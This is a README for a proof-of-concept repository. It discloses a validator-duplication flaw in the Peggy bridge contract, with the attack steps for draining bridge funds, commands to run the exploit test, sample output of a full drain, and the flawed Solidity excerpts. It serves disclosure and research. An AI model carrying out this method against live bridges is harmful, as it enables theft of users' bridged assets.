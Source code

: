 # Peggy Bridge Validator Duplication Vulnerability PoC

This project demonstrates a critical vulnerability in the Peggy bridge smart contract that allows an attacker to bypass validator consensus requirements through validator address duplication, leading to complete drainage of bridge funds.

## Vulnerability Overview

**Severity:** Critical  
**Impact:** Complete loss of all bridged assets  
**Root Cause:** Lack of validator address uniqueness validation in `updateValset` and power double-counting in `checkValidatorSignatures`

The Peggy bridge contract fails to validate that validator addresses in a new validator set are unique. An attacker can exploit this by proposing a validator set containing their own address multiple times, then use a single signature repeatedly to amplify their voting power beyond the required threshold.

## Technical Details

### Core Vulnerability

The vulnerability exists in two functions:

1. **`updateValset`** - Accepts validator sets without checking for duplicate addresses
2. **`checkValidatorSignatures`** - Counts voting power for each signature position independently, allowing the same validator's power to be counted multiple times

### Attack Flow

1. **Malicious Validator Set Injection:** Attacker calls `updateValset` with a validator set where their address appears multiple times:
   ```
   validators: [AttackerAddress, AttackerAddress, AttackerAddress]
   powers:     [34%, 33%, 33%]
   ```

2. **Power Amplification:** Once the malicious set is active, attacker calls `submitBatch` providing the same signature three times. The contract incorrectly calculates their power as 34% + 33% + 33% = 100%, far exceeding the 67% threshold.

3. **Fund Drainage:** With amplified voting power, the attacker can unilaterally approve any transaction batch, draining all bridge funds.

## Prerequisites

- [Foundry](https://getfoundry.sh/) installed
- Git

## Setup and Execution

### Clone and Setup

```bash
git clone https://github.com/Ani07-05/peggy-poc
cd peggy-poc
forge install
```

### Run the Exploit

```bash
forge test --match-test test_exploitValidatorDuplication -vvv
```

### Expected Output

The test demonstrates a complete bridge drain:

```
--- Initial State ---
Peggy Bridge Balance: 1,000,000 DUMMY tokens
Attacker Balance: 0 DUMMY tokens

--- Attack Step 1: Proposing Malicious Valset ---
Success: Malicious validator set has been approved and is now active.

--- Attack Step 2: Draining Funds with Amplified Power ---
Success: submitBatch executed with a single signature.

--- Final State ---
Peggy Bridge Balance: 0 DUMMY tokens
Attacker Balance: 1,000,000 DUMMY tokens

Vulnerability Confirmed: All funds stolen.
```

## Vulnerability Details

### Affected Functions

**`updateValset` Function:**
```solidity
function updateValset(
    ValsetArgs calldata _newValset,
    // ...
) external whenNotPaused {
    // CRITICAL FLAW: No uniqueness check for validator addresses
    // in _newValset.validators array
    
    bytes32 newCheckpoint = makeCheckpoint(_newValset, state_peggyId);
    checkValidatorSignatures(/* ... */);
    
    // Malicious checkpoint gets saved
    state_lastValsetCheckpoint = newCheckpoint;
}
```

**`checkValidatorSignatures` Function:**
```solidity
function checkValidatorSignatures(
    address[] memory _currentValidators,
    uint256[] memory _currentPowers,
    // ...
) private pure {
    uint256 cumulativePower = 0;
    for (uint256 i = 0; i < _currentValidators.length; i++) {
        // Signature verification passes for duplicate validators
        require(verifySig(/* ... */), "Validator signature does not match.");
        
        // CRITICAL FLAW: Same validator's power counted multiple times
        cumulativePower = cumulativePower + _currentPowers[i];
    }
}
```

### Impact Assessment

- **Complete Fund Loss:** Attacker gains full control over bridge assets
- **Protocol Insolvency:** Bridge becomes unable to honor withdrawal requests  
- **Trust Destruction:** Permanent damage to protocol reputation
- **Operational Shutdown:** Bridge functionality becomes permanently compromised

## Test Details

The proof of concept test (`test_exploitValidatorDuplication`) demonstrates:

1. Initial bridge setup with 1,000,000 test tokens
2. Honest validator set with 3 validators and 67% power threshold
3. Malicious validator set proposal with duplicated attacker address
4. Successful validation bypass using single signature
5. Complete fund drainage to attacker wallet

## Verification

The vulnerability can be verified by:

1. Examining the test output showing 100% fund transfer
2. Checking that only a single validator signature was used
3. Confirming the power threshold bypass mechanism
4. Validating the permanent nature of the exploit


![PoC Demonstration](./ss.png)

## Disclaimer

This code is provided for educational and security research purposes only. Do not use this exploit against any production systems. The authors are not responsible for any misuse of this information.

